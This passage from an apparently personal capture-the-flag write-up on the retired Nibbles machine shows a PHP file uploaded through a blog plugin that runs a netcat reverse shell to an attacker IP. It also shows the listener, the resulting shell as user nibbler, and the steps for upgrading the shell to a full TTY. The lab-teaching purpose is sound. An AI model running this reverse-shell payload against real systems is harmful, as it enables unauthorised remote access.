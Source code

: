 ```php
<?php system("rm /tmp/lol;mkfifo /tmp/lol;nc 10.10.14.241 80 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol"); ?>
```

Before we execute the script, we need to be sure to setup our `netcat` listener first. We
 chose port 80 here because it's a port that most firewalls have open; using an uncommon
 port can trigger alerts, and while it's not likely to do so in this scenario, it's
 [considered a good idea](https://highon.coffee/blog/reverse-shell-cheat-sheet/#:~:text=Set%20your%20Netcat,g.%2080%20/%20443) to use these open ports even in test scenarios.

```terminal
┌──(zero㉿kali)-[~]
└─$ nc -lvnp 80
listening on [any] 80 ...
```
> For this to work on my machine, I had to make sure that my WSL2 kali box could receive
 traffic on the ports I listened on. Luckily, this is something I had encountered a while back
 and already knew how to do this[^wsl2].
{: .prompt-info }

With `netcat` listening, all that was left was to run the script. I decided to load the `PHP`
 script using the browser this time, instead of `curl`, as the script would lead to a long
 hang / load time and I didn't want my terminal having to sit on it. Opening the `image.php`
 file in a new tab, we look at our `netcat` command and see:

```terminal
┌──(zero㉿kali)-[~]
└─$ nc -lnvp 80
listening on [any] 80 ...
connect to [WSL2-IP] from (UNKNOWN) [WSL2-GW] 65348
/bin/sh: 0: can't access tty; job control turned off
$
```

We now check that we can interact with the session and that we're on the expected user...

```terminal
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Success! We have a shell on the target running as the `nibbler` user. We could move forward
 from here, but the current interface is pretty rough: we don't have access to command history,
 we can't move our cursor to correct or change typed commands, we don't know our current
 directory... it's pretty primitive and gross. We can fix that using [this magic trick](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#:~:text=terminal.%20Pretty%20sweet.-,Method%203%3A%20Upgrading%20from%20netcat%20with%20magic,-I%20watched%20Phineas)
 to give us a fully-functional TTY interface with all the snazzy QoL features we've come to
 love in our linux terminals:

```terminal
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ^Z
[1]+  Stopped                 nc -lnvp 80

┌──(zero㉿kali)-[~]
└─$ echo $TERM
xterm-256color

┌──(zero㉿kali)-[~]
└─$ stty -a
speed 38400 baud; rows 71; columns 122; line = 0;
<SNIP>

┌──(zero㉿kali)-[~]
└─$ stty raw -echo

```

[^nibbles]: Nibbles is a retired machine, which means it has publicly available walkthroughs
[^wsl2]: Open a Powershell window (running as admin) and create a port proxy
[^habits]: There are some red team exercises where you want to gain access as quickly as
[^bak]: Notice that the first command here creates a backup of the `monitor.sh` script. We
[^sudo]: Notice that we have to specify the full path. When trying to use the relative path,
